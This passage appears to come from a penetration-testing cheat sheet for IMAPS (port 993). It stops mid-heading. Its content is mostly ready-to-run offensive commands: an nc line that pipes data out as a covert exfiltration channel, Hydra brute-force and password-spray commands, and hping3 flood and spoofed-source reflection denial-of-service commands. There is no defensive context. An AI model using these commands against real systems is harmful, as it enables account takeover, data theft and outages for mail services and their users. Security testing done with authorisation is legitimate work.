 #### Covert Channels via IMAP

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    echo "exfil data" | nc <target_ip> 993
    ```
* **Description:** Use IMAP as a covert channel to exfiltrate data while blending in with legitimate email traffic.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra imap-sec://<target_ip> -s 993 -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra imap-sec://<target_ip> -s 993 -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p 993 --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p 993 --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

#### SSL/TLS Handshake Flood
